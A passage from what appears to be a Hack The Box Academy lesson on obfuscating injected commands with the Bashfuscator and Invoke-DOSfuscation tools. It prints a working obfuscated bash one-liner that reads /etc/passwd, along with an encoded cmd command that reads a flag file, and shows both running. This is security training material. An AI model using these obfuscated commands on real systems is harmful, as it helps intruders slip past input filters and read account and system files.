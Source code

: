 ```
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters
```
We can now test the outputted command with `bash -c ''`, to see whether it does execute the intended command:
```
D3vil0per@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```
We can see that the obfuscated command works, all while looking completely obfuscated, and does not resemble our original command. We may also notice that the tool utilizes many obfuscation techniques, including the ones we previously discussed and many others.

### Windows (DOSfuscation)
There is also a very similar tool that we can use for Windows called [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation). Unlike `Bashfuscator`, this is an interactive tool, as we run it once and interact with it to get the desired obfuscated command. We can once again clone the tool from GitHub and then invoke it through PowerShell, as follows:
```
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

HELP MENU :: Available options shown below:
[*]  Tutorial of how to use this tool             TUTORIAL
...SNIP...

Choose one of the below options:
[*] BINARY      Obfuscated binary syntax for cmd.exe & powershell.exe
[*] ENCODING    Environment variable encoding
[*] PAYLOAD     Obfuscated payload via DOSfuscation
```
We can even use `tutorial` to see an example of how the tool works. Once we are set, we can start using the tool, as follows:
```
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```
Finally, we can try running the obfuscated command on `CMD`, and we see that it indeed works as expected:
```
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

test_flag
```
Tip: If we do not have access to a Windows VM, we can run the above code on a Linux VM through `pwsh`. Run `pwsh`, and then follow the exact same command from above. This tool is installed by default in your `Pwnbox` instance. You can also find installation instructions at this [link](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-linux).
